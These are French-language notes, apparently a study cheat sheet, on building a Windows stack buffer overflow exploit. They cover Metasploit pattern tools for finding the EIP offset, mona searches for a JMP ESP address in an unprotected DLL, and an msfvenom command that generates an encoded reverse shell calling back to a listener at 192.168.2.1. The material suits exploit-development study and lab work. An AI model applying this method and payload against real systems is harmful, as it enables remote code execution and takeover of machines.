 ## Reverse

- Création d'un pattern d'une longueur de 800
```bash
/opt/metasploit/tools/exploit/pattern_create.rb -l 800
```
- Envoie du pattern dans la section vulnérable
- Lire la valeur de EIP dans le débuggeur lorsque le programme à planté
- Calcul de l'offset
```bash
/opt/metasploit/tools/exploit/pattern_offset.rb -l 800 -q <value EIP>
```
- Vérifier que l'offset est correcte en écrivant  `offset * "A" + 4 * "B"` dans la section. La valeur de l'EIP doit être `42424242`
 - vérifier la place dispo pour la Payload, envoyant dans la section `offset * "A" + 4 * "B" + 80 * "C"`. Les "C" doivent être écrit dans la mémoire.
- chercher une DLL qui n'est pas sécurisé(Rebase, ASLR : False)
```
!mona modules
```
- vérifier la présence d'une instruction dans une DLL et liste les adresses de où se trouve l'instruction JMPESP (l'opcode de JMPESP est `\xff\xe4` ) 
```
!mona find -s "\xff\xe4" -m slmfc.dll
```
- Création d'un reverse shell
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.2.1  
LPORT=666 -f c -e x86/shikata_ga_nai -b "\x00\x0D\xFF"
```

| Paramètre | Valeur                    | Description            |
| --------- | ------------------------- | ---------------------- |
| -p        | windows/shell_reverse_tcp | type de payload        |
| LHOST     | 192.168.2.1               | adresse ip du listener |
| LPORT     | 666                       | port du listener       |
| -f        | c                         | export au format C     |
| -e        | x86/shikata_ga_nai        | encodeur               |
| -b        | "\x00\x0D\xFF"            | liste des Badchar      |

- Maintenant, créer l'exploit avec :
```
offset + Adresse de JMPESP(inversé) + nb * NoP + Shellcode
```